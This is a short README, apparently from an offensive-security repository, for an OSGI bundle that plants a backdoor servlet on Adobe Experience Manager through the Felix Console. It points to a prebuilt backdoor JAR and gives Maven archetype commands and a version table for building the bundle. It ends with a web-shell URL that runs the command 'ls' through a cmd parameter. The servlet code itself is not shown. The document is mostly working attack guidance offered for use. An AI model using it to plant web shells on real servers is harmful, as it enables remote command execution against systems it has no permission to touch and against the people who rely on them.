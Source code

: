 # AEM RCE OSGI bundle

OSGI bundle allows to get RCE when you have access to Felix Console. There is pre-build bundle `rce.bundle.core-1.0-SNAPSHOT.jar`, works for AEM 6.2 or newer.

### Build by yourself

Generate new skeleton as described below. Backport `BackdoorServlet` to newly genearted skeleton and build it with maven.

For AEM 5.6 use following maven command.

```
mvn org.apache.maven.plugins:maven-archetype-plugin:2.4:generate \
 -DarchetypeGroupId=com.day.jcr.vault \
 -DarchetypeArtifactId=multimodule-content-package-archetype \
 -DarchetypeVersion=1.0.2 \
 -DarchetypeCatalog=https://repo.adobe.com/nexus/content/groups/public/

```

For AEM 6.0 or newer use following maven command.

```
mvn org.apache.maven.plugins:maven-archetype-plugin:2.4:generate \
 -DarchetypeGroupId=com.adobe.granite.archetypes \
 -DarchetypeArtifactId=aem-project-archetype \
 -DarchetypeVersion=SELECT_FROM_TABLE \
 -DarchetypeCatalog=https://repo.adobe.com/nexus/content/groups/public/

```

Select archetype version from the table.

<table>
  <tr>
    <th>Archetype version </th>
    <th>AEM version</th>
  </tr>
  <tr>
    <td>7</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>8</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>9</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>10</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>11</td>
    <td>6.2 or newer</td>
  </tr>
  <tr>
    <td>12</td>
    <td>6.3 or newer</td>
  </tr>
  <tr>
    <td>13</td>
    <td>6.4, 6.3 + SP2</td>
  </tr>
  <tr>
    <td>14</td>
    <td>6.4, 6.3 + SP2</td>
  </tr>
</table>

### Access the shell
https://aem.webapp/bin/backdoor.html?cmd=ls


